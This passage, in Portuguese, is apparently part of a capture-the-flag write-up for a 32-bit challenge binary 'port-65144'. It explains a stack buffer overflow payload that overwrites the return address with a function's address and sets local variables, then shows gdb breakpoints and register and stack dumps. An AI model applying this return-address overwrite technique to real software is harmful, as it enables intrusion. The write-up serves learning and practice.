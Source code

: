Estou usando a <a href="https://pypi.org/project/pwntools/" target="_blank">bibliotéca pwn</a> com python3.

Explicando o exploit, estou apenas enviando 172 bytes do caractere "A", substituindo o `EPI` pelo `f1` (endereço da função), após o `EPI` temos o `EBP` que para nós não é importante agora, então coloco `JUNK`, e temos nossas variáveis locais, que em ordem temos os valores` 0x9c` e `300`.

Eu também escrevi um arquivo chamado `payload.txt` para debugar com `gdb` mais tarde.

Vou colocar um breakpoint no endereço `0x804927d` 'porque acho que está mudando uma variável importante já conhecida.

```bash
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ gdb port-65144
Reading symbols from port-65144...
(No debugging symbols found in port-65144)
gef➤  break *0x804927d
gef➤  run < payload.txt
```

Se lembra da variável que está na `.bss`? seu endereço é `0x0804c035`, então acabei de printar antes de executar o breakpoint:

```bash
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0804c000  →  0x0804bf14  →  0x00000001
$ebx   : 0x41414141 ("AAAA"?)
$ecx   : 0xf7f0d580  →  0xfbad2088
$edx   : 0xff8e788c  →  0xf7d4be00  →  <__libc_start_main+0> call 0xf7e6c009
$esp   : 0xff8e7874  →  0x41414141 ("AAAA"?)
$ebp   : 0xff8e787c  →  0x41414141 ("AAAA"?)
$esi   : 0xf7f0d000  →  0x001dfd6c
$edi   : 0xf7f0d000  →  0x001dfd6c
$eip   : 0x0804927d  →   mov BYTE PTR [eax+0x35], 0x1
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xff8e7874│+0x0000: 0x41414141   ← $esp
0xff8e7878│+0x0004: 0x41414141
0xff8e787c│+0x0008: 0x41414141   ← $ebp
0xff8e7880│+0x000c: 0x42424242
0xff8e7884│+0x0010: 0x0000009c
0xff8e7888│+0x0014: 0x0000012c
0xff8e788c│+0x0018: 0xf7d4be00  →  <__libc_start_main+0> call 0xf7e6c009
0xff8e7890│+0x001c: 0xf7f0d000  →  0x001dfd6c
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x804926d                  or     BYTE PTR [eax+eax*1+0x24750000], bl
    0x8049274                  cmp    DWORD PTR [ebp+0xc], 0x12c
    0x804927b                  jne    0x8049298
 →  0x804927d                  mov    BYTE PTR [eax+0x35], 0x1
    0x8049284                  sub    esp, 0xc
    0x8049287                  lea    edx, [eax-0x1ff8]
    0x804928d                  push   edx
    0x804928e                  mov    ebx, eax
    0x8049290                  call   0x80490f0 <puts@plt>
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "port-65144", stopped 0x804927d in ?? (), reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x804927d → mov BYTE PTR [eax+0x35], 0x1
```
